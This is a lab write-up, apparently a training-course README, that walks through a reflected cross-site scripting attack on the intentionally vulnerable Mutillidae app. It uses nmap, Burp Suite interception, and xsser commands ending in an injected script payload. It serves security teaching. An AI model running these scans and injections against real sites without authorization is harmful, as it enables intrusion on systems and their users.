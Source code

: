 # Cross site scripting
In this lab environment, the user is going to get access to a Kali GUI instance. An instance of the Mutillidae web application can be accessed using the tools installed on Kali at http://demo.ine.local

Objective: Perform an XSS Attack on the web application with XSSer!

# 1. Use nmap to find the service
Use: $nmap demo.ine.local to find running service

# 2. Browse to the open service
The port 80 is open, the port 80 is a http service.

# 3. Go to DNS Lookup
Choose in the left navbar: OWASP 2017 -> A7- Cross site scripting (XSS) -> Reflected (First order) -> DNS lookup

# 4. Setup Burpsuite with localhost
After setup with intercept, enter "HelloWorld" in the Hostname/IP and click Lookup DNS.
![dns](dns.png)

# 5. Intercept
After submiting, the burpsuite will intercept and make a path to target host.
![target](target.png)

# 6. Insert the target host to XSS
Use this command to run XSS with xsser: $xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' and the result was:
![Result](result.png)
The output confirms that the target is vulnerable.

# 7. Xsser with auto tag
Use this command to run XSS auto with xsser: $xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto and the result was:
![auto](auto.png)
The output confirms that the target is vulnerable to 99% injection.

# 8. xsser with custome tag
Command: $xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
The cmd will force a final attack that can be used in burp to change out the target_host.
![finalAttack](finalAttack.png)
Change out the target host in burp then forward:
![burp](burp.png)
the final result in browser is:
![finalResult](finalResult.png)